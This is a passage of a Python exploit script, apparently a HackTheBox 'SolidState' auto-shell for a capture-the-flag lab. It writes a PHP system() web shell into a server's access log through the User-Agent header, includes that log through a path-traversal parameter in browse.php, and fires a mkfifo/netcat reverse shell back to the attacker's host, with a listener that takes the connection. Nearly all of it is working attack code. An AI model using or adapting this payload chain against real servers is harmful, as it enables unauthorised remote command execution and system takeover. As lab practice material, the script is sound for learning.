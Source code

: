 ```py
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.write(str.encode("id \n"))
    t.interact()
    
# Function Just to Poison the Log
def PoisonLOG(rhost):
    print("[+] Let's Posion the Log !! [+]")
    url = "http://%s:80/" %rhost
    headers = {"User-Agent": "<?php system($_GET['cmd']); ?>"}
    requests.get(url, headers=headers,proxies=proxies)
    print("[+] Log Poisoned ! [+]")

def TriggerReverse(lhost,lport,rhost):
    print("[+] Enjoy your reverse !! [+]")
    payload = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %s" %(lhost,lport)
    payload_str = urllib.parse.quote(payload, safe='')
    url = "http://" + rhost + ":80/browse.php?file=../../../../../../../var/log/httpd-access.log&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+" + lhost + "+" + lport + "+>/tmp/f"
    requests.get(url, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser(description='HackTheBox SolidState AutoShell - 0x4rt3mis')
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the shell', required=True)

    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Poison the log
    PoisonLOG(rhost)
    # Get reverse
    TriggerReverse(lhost,lport,rhost)
    
if __name__ == '__main__':
    main()
```
